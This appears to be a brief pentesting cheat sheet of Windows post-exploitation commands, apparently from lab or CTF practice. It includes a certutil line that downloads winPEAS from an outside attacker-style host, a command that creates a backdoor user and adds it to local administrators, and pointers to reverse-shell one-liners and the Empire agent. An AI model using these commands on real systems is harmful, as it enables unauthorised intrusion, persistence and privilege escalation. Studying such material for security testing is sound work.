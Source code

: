 `winpeas`
search for possible paths to escalate privileges

`windows reverse shells one liners`
https://ironhackers.es/en/cheatsheet/comandos-en-windows-para-obtener-shell/

`empire`
pure PowerShell post-exploitation agent
https://www.ivoidwarranties.tech/posts/pentesting-tuts/empire/guide/

`systeminfo`
on windows get information about the host

`cerutil.exe`
download files (ala wget)
certutil.exe -urlcache -split -f "http://10.10.14.1:8000/winPEAS.bat" winPEAS.bat

`sc stop`
stop processes by name on windoz

`net user bacon ihazpassword /ADD`
Looking at the output of the ‘net user bacon ihazpassword /ADD’, we have successfully added a user account named “bacon”, from there we could issue **net localgroup administrators bacon /ADD** to get a local administrator on the system itself. We have full control over the system at this point.

`metasploit enum_patches module`
When confronted with  a Windows target, identifying which patches have been applied is an easy way of knowing if regular updates happen. It may also provide information on other possible vulnerabilities present on the system.